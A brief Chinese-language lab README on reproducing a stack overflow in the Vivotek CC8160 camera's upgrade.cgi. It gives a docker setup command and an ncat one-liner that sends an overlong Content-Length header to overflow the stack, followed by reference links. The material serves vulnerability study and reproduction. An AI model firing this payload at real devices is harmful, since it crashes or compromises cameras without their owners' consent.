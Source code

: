 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

```sh
$ docker run --privileged -p 1234:80 -it vivotek_cc8160 /bin/bash
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi 
HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | ncat -v 192.168.57.20 80
```

## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/

